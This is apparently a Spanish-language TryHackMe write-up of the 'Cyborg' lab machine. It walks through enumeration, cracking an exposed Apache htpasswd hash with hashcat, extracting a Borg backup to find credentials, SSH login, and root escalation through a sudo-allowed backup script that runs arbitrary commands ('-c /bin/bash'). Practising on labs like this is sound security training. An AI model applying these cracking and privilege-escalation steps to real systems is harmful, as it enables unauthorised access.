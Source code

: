 ```yaml
---
title: Cyborg
date: 2024-01-14 16:00 +/-0000
categories: TryHackMe Máquina
tags:
  - Cyborg
  - tryhackme
  - easy
author: okud4
toc: true
---
```


## RECONOCIMIENTO

Hoy vamos a practicar con la maquina de Tryhackme llamada Cyborg. Al iniciar la maquina, visito su dirección IP y nos encontramos que se trata de un servidor Apache

![](/assets/img/capturas/cyborg/cyborg_apache.png)

## ESCANEO Y ENUMERACIÓN

Realizamos un escaner a la dirección IP. Para ellos podemos usar nmap o Nessus. En mi caso, estaré utilizando Nessus para esta máquina. Tras realizar el análisis, observamos que tiene los siguientes puertos abiertos y que además, podemos navegar por ciertos directorios que deberían estar protegidos.

![](/assets/img/capturas/cyborg/cyborg_ports.png)

![](/assets/img/capturas/cyborg/cyborg_directorios.png)

Navegamos dentro de el directorio `/etc/squid/` y nos encontramos con el archivo passwd.

![](/assets/img/capturas/cyborg/cyborg_squidpass.png)

Identificamos el Hash, existen varios métodos para identficarlo, en mi caso utilizaré la web [Hashes.com](https://www.hashes.com). En Kali, existe una herramienta llamada #hash-identifier.

![](/assets/img/capturas/cyborg/cyborg_hash.png)

Guardamos el hash en un archivo y procedemos a desencriptarlo:

- Utilizaremos hashcat, para ello ejecutamos el siguiente comando:

```bash
❯ hashcat -m 1600 -a 0 <nombre de archivo> /usr/share/wordlists/rockyou.txt
```

- Una vez que obtenemos la clave, la guardamos en una nota:

```bash
❯ echo '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:<clave>' > clavemd5.txt
```

Volvemos a Nessus y comprobamos los logs en busca de mas informacion. Conseguimos mas directorios por los que podemos navegar en la web.

![](/assets/img/capturas/cyborg/cyborg_sitemap.png)

Navegamos hasta el directorio `/admin/` y nos encontramos con lo siguiente:

![](/assets/img/capturas/cyborg/cyborg_admin.png)

Descargamos el archivo `archive.tar`. Para poder descomprimirlo, usamos el comando:

```bash
❯ tar xvf archive.tar
home/field/dev/final_archive/
home/field/dev/final_archive/hints.5
home/field/dev/final_archive/integrity.5
home/field/dev/final_archive/config
home/field/dev/final_archive/README
home/field/dev/final_archive/nonce
home/field/dev/final_archive/index.5
home/field/dev/final_archive/data/
home/field/dev/final_archive/data/0/
home/field/dev/final_archive/data/0/5
home/field/dev/final_archive/data/0/3
home/field/dev/final_archive/data/0/4
home/field/dev/final_archive/data/0/1
```

Observamos que tenemos un archivo `~/final_archive/config`. Navegamos hasta el directorio y examinamos el contenido:

```bash
❯ cd ~/TryHackme/maquinas/Cyborg/content/home/field/dev/final_archive
❯ ls
 data   config   hints.5   index.5   integrity.5   nonce   README
```

Leemos el **README**:

```bash
❯ catn README
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

Descubrimos que es una copia de seguridad realizada con **_Borg_**. Procedemos a descargarlo e instalarlo:

```bash
sudo apt install borgbackup
```

Extraemos usando la contraseña que obtuvimos anteriormente (squi…):

```bash
borg extract ~/path/hasta/el/archivo/final_archive::music_archive
```

Ahora podremos navegar por los directorios `/home/alex/` y dentro de uno de ellos encontraremos un archivo .txt con unas credenciales

```bash
❯ catn note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3
```

## EXPLOTACIÓN

Ahora que hemos obtenido las credenciales, podremos conectarnos a través de ssh a nuestra víctima, para ellos ejecutamos:

```bash
ssh <usuario>:<ip_victima>
```

Una vez dentro listamos los directorios con `ls -la` para ver todos los directorios y sus correspondientes privilegios. Encontramos un archivo .txt y ejecutamos el comando `cat <archivo>.txt` para así poder leer su contenido. Dentro obtenemos nuestra primera flag.

```bash
<usuario>@ubuntu:~$ cat <archivo>.txt
flag{1_hop...
```

## ESCALADA DE PRIVILEGIOS

Si ejecutamos el comando `sudo -l`obtenemos el siguiente resultado:

```bash
Matching Defaults entries for <usuario> on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User <usuario> may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Pero, me doy cuenta de algo que resulta bastante curioso. Al ver el contenido de el archivo **.bash_history** observo lo siguiente:

```bash
cd /etc/mp3backups/
ls
./backup.sh
ls
echo "hi" >> backup.sh
ls
sudo ./backup.sh -c whoami
sudo ./backup.sh -c /bin/bash
```

Me dirijo en donde se encuentra el archivo **backup.sh** y veo su contenido. Este archivo ejecuta un cronjob y da la casualidad, que permite la ejecución de comandos.

Si ejecutamos el archivo con **sudo** podemos navegar por el directorio root y dentro, descubrimos el archivo **root.txt**. Ya solo nos quedaria ver su contenido y obtener el ultimo flag.

```bash

@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c "ls /root"
-------------------------------------------------------

Backup finished
root.txt

-------------------------------------------------------

@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c "cat /root/root.txt"

-------------------------------------------------------

Backup finished
flag{Than5s_f0r_

```
